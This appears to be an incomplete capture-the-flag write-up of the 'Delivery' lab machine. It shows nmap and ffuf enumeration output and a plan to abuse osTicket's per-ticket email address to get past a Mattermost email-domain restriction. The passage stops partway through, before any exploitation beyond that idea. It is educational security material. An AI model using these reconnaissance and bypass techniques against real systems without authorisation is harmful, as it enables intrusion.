# Delivery - Easy Box

## Nmap Scan Results

```
sudo nmap -p- -T4 -sVC -oA nmap/delivery -vvv 10.129.88.80
Starting Nmap 7.95 ( https://nmap.org ) at 2026-10-22 16:39 EDT
NSE: Loaded 157 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 16:39
Completed NSE at 16:39, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 16:39
Completed NSE at 16:39, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 16:39
Completed NSE at 16:39, 0.00s elapsed
Initiating Ping Scan at 16:39
Scanning 10.129.88.80 [4 ports]
Completed Ping Scan at 16:39, 0.02s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 16:39
Completed Parallel DNS resolution of 1 host. at 16:39, 0.07s elapsed
DNS resolution of 1 IPs took 0.07s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 16:39
Scanning 10.129.88.80 [65535 ports]
Discovered open port 22/tcp on 10.129.88.80
Discovered open port 80/tcp on 10.129.88.80
Discovered open port 8065/tcp on 10.129.88.80
Completed SYN Stealth Scan at 16:40, 13.45s elapsed (65535 total ports)
Initiating Service scan at 16:40
Scanning 3 services on 10.129.88.80
Completed Service scan at 16:40, 31.26s elapsed (3 services on 1 host)
NSE: Script scanning 10.129.88.80.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 16:40
Completed NSE at 16:40, 1.49s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 16:40
Completed NSE at 16:40, 0.25s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 16:40
Completed NSE at 16:40, 0.00s elapsed
Nmap scan report for 10.129.88.80
Host is up, received echo-reply ttl 63 (0.065s latency).
Scanned at 2026-10-22 16:39:59 EDT for 46s
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 9c:40:fa:85:9b:01:ac:ac:0e:bc:0c:19:51:8a:ee:27 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCq549E025Q9FR27LDR6WZRQ52ikKjKUQLmE9ndEKjB0i1qOoL+WzkvqTdqEU6fFW6AqUIdSEd7GMNSMOk66otFgSoerK6MmH5IZjy4JqMoNVPDdWfmEiagBlG3H7IZ7yAO8gcg0RRrIQjE7XTMV09GmxEUtjojoLoqudUvbUi8COHCO6baVmyjZRlXRCQ6qTKIxRZbUAo0GOY8bYmf9sMLf70w6u/xbE2EYDFH+w60ES2K906x7lyfEPe73NfAIEhHNL8DBAUfQWzQjVjYNOLqGp/WdlKA1RLAOklpIdJQ9iehsH0q6nqjeTUv47mIHUiqaM+vlkCEAN3AAQH5mB/1
|   256 5a:0c:c0:3b:9b:76:55:2e:6e:c4:f4:b9:5d:76:17:09 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAiAKnk2lw0GxzzqMXNsPQ1bTk35WwxCa3ED5H34T1yYMiXnRlfssJwso60D34/IM8vYXH0rznR9tHvjdN7R3hY=
|   256 b7:9d:f7:48:9d:a2:f2:76:30:fd:42:d3:35:3a:80:8c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEV5D6eYjySqfhW4l4IF1SZkZHxIRihnY6Mn6D8mLEW7
80/tcp   open  http    syn-ack ttl 63 nginx 1.14.2
|_http-server-header: nginx/1.14.2
| http-methods:
|_  Supported Methods: GET HEAD
|_http-title: Welcome
8065/tcp open  http    syn-ack ttl 63 Golang net/http server
|_http-favicon: Unknown favicon MD5: 6B215BD4A98C6722601D4F8A985BF370
| http-robots.txt: 1 disallowed entry
|_/
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 200 OK
|     Accept-Ranges: bytes
|     Cache-Control: no-cache, max-age=31556926, public
|     Content-Length: 3108
|     Content-Security-Policy: frame-ancestors 'self'; script-src 'self' cdn.rudderlabs.com
|     Content-Type: text/html; charset=utf-8
|     Last-Modified: Thu, 22 Oct 2026 20:38:46 GMT
|     X-Frame-Options: SAMEORIGIN
|     X-Request-Id: gqyqkd78kbd6ifsh7rk3i4aqmo
|     X-Version-Id: 5.30.0.5.30.1.57fb31b889bf81d99d8af8176d4bbaaa.false
|     Date: Thu, 22 Oct 2026 20:40:38 GMT
|     <!doctype html><html lang="en"><head><meta charset="utf-8"><meta name="viewport" content="width=device-width,initial-scale=1,maximum-scale=1,user-scalable=0"><meta name="robots" content="noindex, nofollow"><meta name="referrer" content="no-referrer"><title>Mattermost</title><meta name="mobile-web-app-capable" content="yes"><meta name="application-name" content="Mattermost"><meta name="format-detection" content="telephone=no"><link re
|   GenericLines, Help, RTSPRequest, SSLSessionReq:
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest:
|     HTTP/1.0 200 OK
|     Accept-Ranges: bytes
|     Cache-Control: no-cache, max-age=31556926, public
|     Content-Length: 3108
|     Content-Security-Policy: frame-ancestors 'self'; script-src 'self' cdn.rudderlabs.com
|     Content-Type: text/html; charset=utf-8
|     Last-Modified: Thu, 22 Oct 2026 20:38:46 GMT
|     X-Frame-Options: SAMEORIGIN
|     X-Request-Id: jg6s9rkkg7g7zp1h1t36ooz5xe
|     X-Version-Id: 5.30.0.5.30.1.57fb31b889bf81d99d8af8176d4bbaaa.false
|     Date: Thu, 22 Oct 2026 20:40:21 GMT
|     <!doctype html><html lang="en"><head><meta charset="utf-8"><meta name="viewport" content="width=device-width,initial-scale=1,maximum-scale=1,user-scalable=0"><meta name="robots" content="noindex, nofollow"><meta name="referrer" content="no-referrer"><title>Mattermost</title><meta name="mobile-web-app-capable" content="yes"><meta name="application-name" content="Mattermost"><meta name="format-detection" content="telephone=no"><link re
|   HTTPOptions:
|     HTTP/1.0 405 Method Not Allowed
|     Date: Thu, 22 Oct 2026 20:40:21 GMT
|_    Content-Length: 0
| http-methods:
|_  Supported Methods: GET
|_http-title: Mattermost
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8065-TCP:V=7.95%I=7%D=10/22%Time=6ADA74B2%P=x86_64-pc-linux-gnu%r(G
SF:enericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20
SF:text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\
SF:x20Request")%r(GetRequest,DF3,"HTTP/1\.0\x20200\x20OK\r\nAccept-Ranges:
SF:\x20bytes\r\nCache-Control:\x20no-cache,\x20max-age=31556926,\x20public
SF:\r\nContent-Length:\x203108\r\nContent-Security-Policy:\x20frame-ancest
SF:ors\x20'self';\x20script-src\x20'self'\x20cdn\.rudderlabs\.com\r\nConte
SF:nt-Type:\x20text/html;\x20charset=utf-8\r\nLast-Modified:\x20Thu,\x2022
SF:\x20Oct\x202026\x2020:38:46\x20GMT\r\nX-Frame-Options:\x20SAMEORIGIN\r\
SF:nX-Request-Id:\x20jg6s9rkkg7g7zp1h1t36ooz5xe\r\nX-Version-Id:\x205\.30\
SF:.0\.5\.30\.1\.57fb31b889bf81d99d8af8176d4bbaaa\.false\r\nDate:\x20Thu,\
SF:x2022\x20Oct\x202026\x2020:40:21\x20GMT\r\n\r\n<!doctype\x20html><html\
SF:x20lang=\"en\"><head><meta\x20charset=\"utf-8\"><meta\x20name=\"viewpor
SF:t\"\x20content=\"width=device-width,initial-scale=1,maximum-scale=1,use
SF:r-scalable=0\"><meta\x20name=\"robots\"\x20content=\"noindex,\x20nofoll
SF:ow\"><meta\x20name=\"referrer\"\x20content=\"no-referrer\"><title>Matte
SF:rmost</title><meta\x20name=\"mobile-web-app-capable\"\x20content=\"yes\
SF:"><meta\x20name=\"application-name\"\x20content=\"Mattermost\"><meta\x2
SF:0name=\"format-detection\"\x20content=\"telephone=no\"><link\x20re")%r(
SF:HTTPOptions,5B,"HTTP/1\.0\x20405\x20Method\x20Not\x20Allowed\r\nDate:\x
SF:20Thu,\x2022\x20Oct\x202026\x2020:40:21\x20GMT\r\nContent-Length:\x200\
SF:r\n\r\n")%r(RTSPRequest,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConte
SF:nt-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\
SF:n400\x20Bad\x20Request")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\
SF:r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20clos
SF:e\r\n\r\n400\x20Bad\x20Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x
SF:20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nCo
SF:nnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(FourOhFourRequest,D
SF:F3,"HTTP/1\.0\x20200\x20OK\r\nAccept-Ranges:\x20bytes\r\nCache-Control:
SF:\x20no-cache,\x20max-age=31556926,\x20public\r\nContent-Length:\x203108
SF:\r\nContent-Security-Policy:\x20frame-ancestors\x20'self';\x20script-sr
SF:c\x20'self'\x20cdn\.rudderlabs\.com\r\nContent-Type:\x20text/html;\x20c
SF:harset=utf-8\r\nLast-Modified:\x20Thu,\x2022\x20Oct\x202026\x2020:38:46
SF:\x20GMT\r\nX-Frame-Options:\x20SAMEORIGIN\r\nX-Request-Id:\x20gqyqkd78k
SF:bd6ifsh7rk3i4aqmo\r\nX-Version-Id:\x205\.30\.0\.5\.30\.1\.57fb31b889bf8
SF:1d99d8af8176d4bbaaa\.false\r\nDate:\x20Thu,\x2022\x20Oct\x202026\x2020:
SF:40:38\x20GMT\r\n\r\n<!doctype\x20html><html\x20lang=\"en\"><head><meta\
SF:x20charset=\"utf-8\"><meta\x20name=\"viewport\"\x20content=\"width=devi
SF:ce-width,initial-scale=1,maximum-scale=1,user-scalable=0\"><meta\x20nam
SF:e=\"robots\"\x20content=\"noindex,\x20nofollow\"><meta\x20name=\"referr
SF:er\"\x20content=\"no-referrer\"><title>Mattermost</title><meta\x20name=
SF:\"mobile-web-app-capable\"\x20content=\"yes\"><meta\x20name=\"applicati
SF:on-name\"\x20content=\"Mattermost\"><meta\x20name=\"format-detection\"\
SF:x20content=\"telephone=no\"><link\x20re");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 16:40
Completed NSE at 16:40, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 16:40
Completed NSE at 16:40, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 16:40
Completed NSE at 16:40, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.07 seconds
           Raw packets sent: 66165 (2.911MB) | Rcvd: 66105 (2.644MB)
```

## Reconnaissance on port 80

On taking a first look at the web application, I found an interesting subdomain, i.e., `helpdesk.delivery.htb`.



So, I added it to my `/etc/hosts` file along with the domain itself.

```
grep delivery.htb /etc/hosts
10.129.88.80    delivery.htb helpdesk.delivery.htb
```

Also, when I hovered my mouse over `Contact Us`, I noticed that it was redirecting me to `http://delivery.htb/#contact-us`. So, I went to take a look.



It was mentioned on the web page that I would need a `@delivery.htb` email address in order to access the `MatterMost Server`, which was being hosted on TCP port 8065, which nmap revealed as well. I took a note for that in my mind.

## Reconnaissance on helpdesk.delivery.htb

Before I go & take a look at the subdomain revealed by the web application itself, I started vhost enumeration with the tool `FFUF`, but it didn't help much as it only found the one that the web application revealed earlier.

```
ffuf -u http://delivery.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -H 'Host: FUZZ.delivery.htb' -ic -c -fs 0,10850

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://delivery.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.delivery.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 0,10850
________________________________________________

helpdesk                [Status: 200, Size: 4933, Words: 781, Lines: 103, Duration: 51ms]
:: Progress: [20000/20000] :: Job [1/1] :: 1492 req/sec :: Duration: [0:00:12] :: Errors: 0 ::
```

Regardless, I went ahead & took a look at the subdomain.



There were a lot of interestig functionalities on the web application, namely, `Opening a new Ticket`, `Checking the status of a Ticket` & `Sign In`. I noticed that by default I landed as a `Guest User` on the subdomain. The copyright tag revealed that it is most recent, noticing the year `2026`, & the web application was powered by `osTicket`. Taking a look at the `Wappalyzer`, it revealed that the web application uses `PHP` as its programming language, `MySQL` as its backend database management system & `osTicket` as its issue trackers.



I started a directory bruteforcing scan using `FFUF` in the background while I manually look at the interesting functionalities on the web application itself.

```
ffuf -u http://helpdesk.delivery.htb/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -ic -c -e .php,.txt

```

I tried to register a `test` user on the web application but the 




I went ahead & opened up a ticket.




After I created the ticket, I got redirected to a confirmation page which displayed the ticket id & also mentioned that if I wanted to add more information to the ticket, I can just email the `<ticket_id>@delivery.htb`. Which seemed interesting cause the domain of the email was `delivery.htb` which is required by the web application if a user wants to access their `MatterMost Server`. Which means, if I can find a way to bypass the email confirmation functionality, I can get access to a domain email, which would ultimately give me access to the `MatterMost Server`.



## Bypassing Email Confirmation to get access to the MatterMost Server

I went ahead to `Check Ticket Status` to check the status of my ticket, but unfortunately got presented with an error saying `Account confirmation is required`.



I tried to use an email address which is not yet registered with the web application to create a ticket, in order to try to bypass the account confirmation functionality.


